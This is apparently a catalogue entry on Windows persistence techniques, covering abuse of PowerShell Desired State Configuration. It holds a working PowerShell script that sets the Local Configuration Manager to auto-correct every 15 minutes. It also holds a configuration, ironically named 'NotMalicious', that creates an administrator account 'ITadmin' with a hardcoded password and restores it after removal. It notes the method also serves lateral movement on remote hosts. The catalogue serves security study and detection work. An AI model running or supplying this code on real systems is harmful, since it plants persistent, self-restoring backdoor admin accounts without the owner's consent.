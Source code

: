 ## Desired State Configuration <!-- general "title" of the persistence. Good to be unique. -->

<!-- separate sections by two empty lines -->
<!-- do not remove empty sections  -->

### Location: <!-- where to find it -->

N/A[^1]

### Classification: <!-- see "how it works" document. Empty lime must go next. -->

| Criteria         | Value                    |
| :--------------- | :----------------------- |
| Permissions      | Admin                    |
| Security context | System                   |
| Persistence type | Other                    |
| Code type        | Files ; Other ; Fileless |
| Launch type      | Automatic                |
| Impact           | Non-destructive[^2]      |
| OS Version       | All OS versions          |
| Dependencies     | OS only                  |
| Toolset          | Scriptable               |

### Description:<!-- add two EOLs or two spaces at the end of line to create a line break -->

Desired State Configuration (DSC) is a feature in PowerShell 4.0 and above that helps administrators to automate the configuration of Windows and Linux operating systems (OSes).  
DSC provides a set of PowerShell language extensions, cmdlets and a process called declarative scripting.  
Using DSC administrators can ensure that a machine is set to a specific configuration and that if it deviates from the configuration to run scripts that will restore the desired configuration.  
After setting a DSC extension the DSC Local Configuration Manager monitors the configuration and if any deviation is found, it can be fixed with DSC scripts running with system privileges.  
DSC can be run on a local or remote host the user has admin rights on, so it can be used for lateral movement as well.

To abuse DSC for persistence the first the Local Configuration Manager configuration might need be changed to a configuration that is auto-corrected if there is a deviation, to continue configuration after reboot and the Frequency of monitoring and changing should be set to the desired value (min 15 minutes).
this can be done with the following script:

```
#Change DSC Local Configuration Manager
[DSCLocalConfigurationManager()]
Configuration SetDSCLMConfig
{
    node localhost
    {
        Settings
        {
            ActionAfterReboot = 'ContinueConfiguration' #Might be already set
            AllowModuleOverWrite = $true
            ConfigurationMode = 'ApplyAndAutoCorrect'
            ConfigurationModeFrequencyMins = 15 #Change this
        }

    }
}
SetDSCLMConfig -OutputPath C:\foo\bar | Out-Null

#Setting the configuration manager
Set-DscLocalConfigurationManager -Path C:\foo\bar -ComputerName localhost

```

After setting the Local Configuration Manager the next step is to create a malicious configuration that suit our needs. Here is an example of a configuration that adds a user to local administrators and creates a file.

```
    Configuration NotMalicious
    {
        Node localhost
        {
            Script ScriptExample
            {
                SetScript = {
                    $username = "ITadmin"
                    $password = ConvertTo-SecureString "password123!!" -AsPlainText -Force
                    $exist = Get-LocalUser -Name $username -ErrorAction SilentlyContinue
                    if($exist -eq $null)
                    {
                        New-LocalUser -Name $username -Password $password -FullName "Real IT admin"
                        Add-LocalGroupMember -Group "Administrators" -Member $username
                    }
                    Write-Output "$(whoami) just added ITadmin" > C:\foo\bar\dsc.txt
                }
                TestScript = {
                    return ($exist -ne $null)
                }
                GetScript = { @{ Result = ($exist -ne $null) } }
            }
    }
    NotMalicious -OutputPath C:\foo\bar | Out-Null

    #Start the configuration
    Start-DscConfiguration -Path "C:\foo\bar" -ComputerName localhost | Out-Null
```

### References: <!-- use <...> or [abc](https://...) syntax. Prepend with "- " when more than one -->

[DSC Tutorial](https://learn.microsoft.com/en-us/powershell/dsc/getting-started/wingettingstarted?view=dsc-1.1)
[DSC Attack Framework](https://www.blackhat.com/docs/asia-16/materials/asia-16-Kazanciyan-DSCompromised-A-Windows-DSC-Attack-Framework.pdf)
[Azure DSC Persistence](https://www.netspi.com/blog/technical/cloud-penetration-testing/azure-persistence-with-desired-state-configurations/)
[DSC Community](https://github.com/dsccommunity)

### Credits: <!-- use [abc](https://...) syntax. Prepend with "- " when more than one. -->

- Entry added by [@Tamirye94](https://twitter.com/Tamirye94)

### See also: <!-- if refering to the same repo, use [Name](file.md) syntax. -->

<!-- prepend with "- " if more than one -->

### Remarks: <!-- see the usage in the "classification" section. Use only 1:1 references i.e. not refering to the same footnote from two different places -->

[^1]: Uses Microsoft DSC Local Configuration Manager.
[^2]: if a DSC configuration is already set, it will be overwritten.
